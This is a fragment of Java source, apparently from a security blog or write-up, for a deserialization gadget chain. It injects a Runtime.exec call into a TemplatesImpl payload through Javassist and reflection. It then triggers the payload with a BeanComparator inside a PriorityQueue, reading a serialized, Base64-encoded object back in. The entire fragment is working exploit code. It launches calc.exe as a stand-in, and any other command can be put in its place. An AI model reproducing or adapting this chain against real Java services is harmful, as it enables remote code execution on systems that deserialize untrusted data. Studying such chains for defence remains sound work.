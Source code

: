 ```java

        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(ROMEtest2.StubTransletPayload.class)));
        CtClass clazz = pool.get((ROMEtest2.StubTransletPayload.class.getName()));
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        clazz.setName("sp4c1ous");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(templates, "_name", "HelloTemplatesTmpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        setFieldValue(comparator, "property", "outputProperties");

        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
    }
}

```
